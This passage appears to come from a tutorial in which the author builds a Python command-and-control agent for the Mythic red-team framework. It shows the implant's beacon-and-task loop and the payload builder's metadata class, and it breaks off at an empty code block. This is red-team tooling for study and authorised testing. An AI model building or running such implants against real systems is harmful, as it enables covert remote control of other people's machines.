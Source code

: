 ```
print(SendCheckin())
while True:
	print("Contacting C2")
	task = getTasks()
	tasks.append(task)
	#print(tasks)
	#print(len(tasks))
	if tasks[0] == None:
		tasks.pop(0)
	if len(tasks) > 0:
		if runTask(tasks[0]):
			tasks.pop(0)
		else:
			print("Error running: " + tasks[1])
			taks.pop(0)
			
	time.sleep(agent["Sleep"])
```
<br>

## Building Time
In addition to all the metadata, the payload also has to be built.  This is done with builder.py in agent_functions.  I primarily used the one provided in the Example_Payload_Type included in the Mythic framework and edited it as I needed.  
```
from mythic_payloadtype_container.PayloadBuilder import *
from mythic_payloadtype_container.MythicCommandBase import *
from mythic_payloadtype_container.MythicRPC import *
import sys
import json
```
Yeah yeah, import all the things.

Here's the start of the metadata.  (Note: I called this Medusa after snakes and the whole greek gods theme of Mythic.  It turns out that there is already a Python agent called Medusa.  This one is entirely unrelated to that one.  I will probably change it at some point to help with confusion.)  UPDATE: It's called Lamprey now.
```
#define your payload type class here, it must extend the PayloadType class though
class Medusa(PayloadType):

    name = "medusa"  # name that would show up in the UI
    file_extension = "py"  # default file extension to use when creating payloads
    author = "@darkwire37"  # author of the payload type
    supported_os = [  # supported OS and architecture combos
        SupportedOS.Linux # update this list with all the OSes your agent supports
    ]
    wrapper = False  # does this payload type act as a wrapper for another payloads inside of it?
    # if the payload supports any wrapper payloads, list those here
    wrapped_payloads = [] # ex: "service_wrapper"
    note = "Should run on anything that runs python3"
    supports_dynamic_loading = False  # setting this to True allows users to only select a subset of commands when generating a payload
    build_parameters = [
        #  these are all the build parameters that will be presented to the user when creating your payload
        # we'll leave this blank for now
    ]
    #  the names of the c2 profiles that your agent supports
    c2_profiles = ["http"]
    translation_container = None
```
The next bit of code is where the building actually happens
```
```